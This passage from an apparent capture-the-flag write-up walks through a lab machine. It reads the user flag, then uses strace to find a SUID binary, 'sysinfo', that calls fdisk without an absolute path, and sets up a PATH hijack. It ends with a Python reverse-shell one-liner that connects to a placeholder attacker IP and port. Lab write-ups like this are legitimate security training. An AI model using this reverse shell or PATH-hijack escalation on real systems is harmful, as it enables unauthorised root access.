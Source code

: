 theseus@ubuntu:/var/www/Magic$ id
id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

We can now get User Flag:
```
theseus@ubuntu:~$ cat user.txt
cat user.txt
cf2728c3...523af67b
```

# Root Flag
I used ```LinEnum.sh``` and found that there is a SUID file called ```sysinfo```. So let's check it.

```
strings /bin/sysinfo
...
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
...
```
So the binary is making calls to lshw, fdisk, cat.

```
theseus@ubuntu:/tmp$ strace -f /bin/sysinfo 2>&1 | grep exec
strace -f /bin/sysinfo 2>&1 | grep exec
execve("/bin/sysinfo", ["/bin/sysinfo"], 0x7ffc94eb4f98 /* 24 vars */) = 0
[pid  1872] execve("/bin/sh", ["sh", "-c", "lshw -short"], 0x7ffd34158b48 /* 24 vars */ <unfinished ...>
[pid  1872] <... execve resumed> )      = 0
[pid  1873] execve("/usr/bin/lshw", ["lshw", "-short"], 0x55596c191b68 /* 24 vars */) = 0
[pid  1873] read(3, "oup rw,nosuid,nodev,noexec,relat"..., 1024) = 1024
[pid  1874] execve("/bin/sh", ["sh", "-c", "fdisk -l"], 0x7ffd34158b48 /* 24 vars */ <unfinished ...>
[pid  1874] <... execve resumed> )      = 0
[pid  1875] execve("/sbin/fdisk", ["fdisk", "-l"], 0x55f096cc0b68 /* 24 vars */) = 0
[pid  1876] execve("/bin/sh", ["sh", "-c", "cat /proc/cpuinfo"], 0x7ffd34158b48 /* 24 vars */ <unfinished ...>
[pid  1876] <... execve resumed> )      = 0
[pid  1877] execve("/bin/cat", ["cat", "/proc/cpuinfo"], 0x55d3877a6b78 /* 24 vars */ <unfinished ...>
[pid  1877] <... execve resumed> )      = 0
[pid  1878] execve("/bin/sh", ["sh", "-c", "free -h"], 0x7ffd34158b48 /* 24 vars */ <unfinished ...>
[pid  1878] <... execve resumed> )      = 0
[pid  1879] execve("/usr/bin/free", ["free", "-h"], 0x55ce08d3db68 /* 24 vars */) = 0
```
The most intresting thing in theses calls is that they are not called with their absolute path. So the OS is searching the PATH to find a valid binaries to execute.

So I created a file called ```fdisk``` in my kali machine and put in it this reverse shell:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR_IP>",<PORT #>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```